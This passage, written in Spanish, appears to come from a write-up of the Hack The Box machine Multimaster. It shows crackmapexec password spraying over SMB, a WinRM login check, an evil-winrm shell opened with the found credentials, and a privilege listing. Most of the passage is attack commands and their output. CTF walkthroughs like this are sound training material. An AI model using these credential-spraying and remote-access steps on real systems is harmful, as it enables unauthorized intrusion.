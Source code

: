 ```null
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\jorden:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\minato:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\nbourne:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:D3veL0pM3nT! STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT! 
```

Si el usuario pertenece al grupo Remote ManageMent Users me podré conectar por winrm

```null
crackmapexec winrm 10.10.10.179 -u 'sbauer' -p 'D3veL0pM3nT!'
SMB         10.10.10.179    5985   MULTIMASTER      [*] Windows 10.0 Build 14393 (name:MULTIMASTER) (domain:MEGACORP.LOCAL)
HTTP        10.10.10.179    5985   MULTIMASTER      [*] http://10.10.10.179:5985/wsman
WINRM       10.10.10.179    5985   MULTIMASTER      [+] MEGACORP.LOCAL\sbauer:D3veL0pM3nT! (Pwn3d!)
```

Y me conecto a la máquina por winrm

```null
evil-winrm -i 10.10.10.179 -u 'sbauer' -p 'D3veL0pM3nT!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> 
```

No tengo ningún privilegio especial

```null
*Evil-WinRM* PS C:\Users\sbauer\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
